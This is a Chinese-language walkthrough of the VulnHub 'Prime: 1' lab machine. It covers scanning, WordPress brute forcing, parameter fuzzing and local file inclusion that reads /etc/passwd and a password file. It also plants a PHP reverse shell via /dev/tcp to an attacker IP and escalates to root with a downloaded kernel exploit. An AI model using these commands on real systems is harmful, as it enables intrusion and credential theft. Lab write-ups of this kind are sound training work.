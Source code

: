 # Prime: 1

2024-6-2 https://www.vulnhub.com/entry/prime-1,358/

difficulty: medium

## IP

192.168.10.189

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8dc52023ab10cadee2fbe5cd4d2d4d72 (RSA)
|   256 949cf86f5cf14c11957f0a2c3476500b (ECDSA)
|_  256 4bf6f125b61326d4fc9eb0729ff46968 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: HacknPentest
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

虚拟机启动后，看到界面上有一个用户名 victor

http://192.168.10.189/ 主页上是一个图片，源代码中也没有可用信息。

使用 gobuster 进行扫描：

```
gobuster -t 64 dir -u http://192.168.10.189/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -e

http://192.168.10.189/image.php            (Status: 200) [Size: 147]
http://192.168.10.189/wordpress            (Status: 301) [Size: 320] [--> http://192.168.10.189/wordpress/]
http://192.168.10.189/index.php            (Status: 200) [Size: 136]
http://192.168.10.189/dev                  (Status: 200) [Size: 131]
http://192.168.10.189/javascript           (Status: 301) [Size: 321] [--> http://192.168.10.189/javascript/]
http://192.168.10.189/secret.txt           (Status: 200) [Size: 412]
```

看到有一个 wordpress 目录，应该是 wp cms。

先看看 /secret.txt 中有什么：

```
Looks like you have got some secrets.

Ok I just want to do some help to you.

Do some more fuzz on every page of php which was finded by you. And if
you get any right parameter then follow the below steps. If you still stuck
Learn from here a basic tool with good usage for OSCP.

https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web

//see the location.txt and you will get your next move//
```

提示多 FUZZ，并且有一个 location.txt，访问 http://192.168.10.189/location.txt 是 404

http://192.168.10.189/image.php 和 http://192.168.10.189/index.php 显示的内容一致。

http://192.168.10.189/dev 显示:

```
hello,
now you are at level 0 stage.
In real life pentesting we should use our tools to dig on a web very hard.
Happy hacking.
```

没什么用。

看看 http://192.168.10.189/wordpress 这个 wordpress 吧，使用 wpscan 进行枚举：

```
wpscan --url http://192.168.10.189/wordpress/ -e

发现一个用户名  victor
```

使用 cewl 收集 cms 信息作为密码，使用 wpscan 进行爆破，但是没有找到 victor 的密码：

```
cewl -d 5 http://192.168.10.189/wordpress/ -w pass.txt

wpscan --url http://192.168.10.189/wordpress/ -P pass.txt -t 10
```

根据 /secret.txt 中的提示，对 image.php 和 index.php 进行参数爆破：

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.10.189/image.php?FUZZ=111 -fs 147

ffuf -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://192.168.10.189/index.php?FUZZ=1111' -fs 136
```

在 /index.ph 中发现 file 参数，继续进行利用,根据参数名意思，有可能是 LFI 或者是文件上传：

```
curl 'http://192.168.10.189/index.php?file=/etc/passwd'

显示结果: Do something better you are digging wrong file
```

尝试读取其他文件看看是否有能读取的:

```
ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://192.168.10.189/index.php?file=FUZZ -fs 0
```

根据前面的提示，还有一个 location.txt，让我们包含这个文件看看能不能读出下一步提示信息：

```
curl 'http://192.168.10.189/index.php?file=location.txt'

ok well Now you reah at the exact parameter

Now dig some more for next one
use 'secrettier360' parameter on some other php page for more fun.
```

得到了一个参数提示 secrettier360 ，在另外一个 php 页面，估计就是 image.php，继续尝试 LFI：

```
curl 'http://192.168.10.189/image.php?secrettier360=/etc/passwd'

root:x:0:0:root:/root:/bin/bash
...
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
```

发现 3 个用户 root victor saket。 saket 还有一个提示: find password.txt file in my directory /home/saket， 尝试利用 LFI 读取。

尝试读取 /home/saket/password.txt 这个文件, 找到了一个密码 follow_the_ippsec：

```
curl 'http://192.168.10.189/image.php?secrettier360=/home/saket/password.txt'

follow_the_ippsec
```

尝试用密码 follow_the_ippsec 和 用户名 victor 登陆 wordpress。登陆后，发现 victor 是管理员权限，寻找可以写入 web shell 的功能点，media upload 、theme add、 plugin add 这几个地方上传后，都显示无写权限，在 theme editor 进行查找可写的页面，在 Twenty Nineteen 这个 theme 下，只有一个可以写的文件 secret.php 应该是靶机设计者给我们留下的 web shell 入口，将 web shell 写入到其中，在 kali 上进行监听，访问 theme 对应页面，得到反弹的 shell：

```
Twenty Nineteen: secret.php

<?php system("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.10.3/8888 0>&1'");?>
```

访问 php 触发反弹：

```
curl http://192.168.10.189/wordpress/wp-content/themes/twentynineteen/secret.php

nc -lvnp 8888

www-data@ubuntu:/var/www/html/wordpress/wp-content/themes/twentynineteen$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

获得 user flag:

```
www-data@ubuntu:/home/saket$ ls
enc  password.txt  user.txt
www-data@ubuntu:/home/saket$ cat user.txt
af3c658dcf9d7190da3153519c003456
```

尝试进行系统枚举，找到提权点。

```
cat /var/www/html/wordpress/wp-config.php'

define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'yourpasswordhere' );
define( 'DB_HOST', 'localhost' );
```

尝试使用得到的 password ssh 登陆上面得到的 3 个用户，但是登陆不成功。

crontab、suid、getcap 等都没发现可利用点，sudo 发现内容：

```
(root) NOPASSWD: /home/saket/enc
```

但是执行时需要输入密码，输入上面得到的密码，也没有什么反应。

尝试使用内核提权 https://www.exploit-db.com/exploits/45010

```
wget http://192.168.10.3/45010.c
gcc 45010.c -o 45010 && ./45010

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls -al
total 92
drwx------  5 root root  4096 Aug 31  2019 .
drwxr-xr-x 24 root root  4096 Aug 29  2019 ..
-rw-------  1 root root  8551 Sep  1  2019 .bash_history
-rw-r--r--  1 root root  3106 Oct 22  2015 .bashrc
drwx------  3 root root  4096 Aug 30  2019 .cache
-rw-------  1 root root   137 Aug 30  2019 .mysql_history
drwxr-xr-x  2 root root  4096 Aug 29  2019 .nano
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r--r--  1 root root    66 Aug 31  2019 .selected_editor
-rwxr-xr-x  1 root root 14272 Aug 30  2019 enc
-rw-r--r--  1 root root   305 Aug 30  2019 enc.cpp
-rw-r--r--  1 root root   237 Aug 30  2019 enc.txt
-rw-r--r--  1 root root   123 Aug 30  2019 key.txt
-rw-r--r--  1 root root    33 Aug 30  2019 root.txt
-rw-r--r--  1 root root   805 Aug 30  2019 sql.py
-rwxr-xr-x  1 root root   442 Aug 31  2019 t.sh
drwxr-xr-x 10 root root  4096 Aug 30  2019 wfuzz
-rw-r--r--  1 root root   170 Aug 29  2019 wordpress.sql
# cat root.txt
b2b17036da1de94cfb024540a8e7075a
```

同时在/root 中，看到了 enc 的源码：

```
int main()
{
string s;
cout<<"enter password: ";
cin>>s;
if(s=="backup_password")
{
cout<<"good"<<endl;
system("/bin/cp /root/enc.txt /home/saket/enc.txt");
system("/bin/cp /root/key.txt /home/saket/key.txt");
}
return 0;
}
```

执行时需要输入的密码就是 backup_password，但是 enc.txt 和 key.txt 这 2 个 key 中的内容，不是 vitcim 和 root 的密码，没什么用。
